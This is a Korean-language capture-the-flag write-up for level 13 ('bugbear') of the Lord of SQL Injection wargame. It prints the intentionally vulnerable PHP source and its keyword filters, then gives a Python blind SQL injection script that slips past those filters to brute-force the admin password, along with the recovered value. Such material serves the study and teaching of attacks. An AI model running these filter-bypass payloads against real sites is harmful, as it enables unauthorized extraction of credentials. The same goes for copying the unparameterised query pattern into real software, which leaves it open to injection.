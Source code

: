 # Lord of SQL Injection No.13 - bugbear
## 문제 출제 의도 
0X와 like를 사용하지 않고 원하는 값을 전달할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```
```php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) 
```
+ 전달받은 pw값에 싱글쿼트가 들어있으면 문제풀이에 실패한다.
+ 전달받은 no값에 `싱글쿼트`, `substr`, `ascii`, `=`, `or`, `and`, `공백`, `like`, `0x`가 들어있으면 문제풀이에 실패한다.
## Solution
1. python 코드 이용
```python
import urllib.request
from urllib.parse import quote

key = ""

for i in range(1, 10):
    for j in range(48, 127):
        url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="
        data = '1||id%09IN%09("admin")%26%26mid(pw,{},1)%09IN%09("{}")%23'.format(str(i), chr(j)) #공백 대신 탭을, like 대신에 in ()문을, and or 대신에 &&와 ||을 사용했다.
        print(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36")
        re.add_header(
            "Cookie", "PHPSESSID=s0p8c0mrjd8rlsc0u0k88ichd4"
        )

        req = urllib.request.urlopen(re)

        if str(req.read()).find("Hello admin") != -1:
            key += chr(j).lower()
            print(key)
            break
print(key)
```
이 코드를 통하여 알아낸 값 735c2773을 pw값으로 전달하면 문제가 풀린다.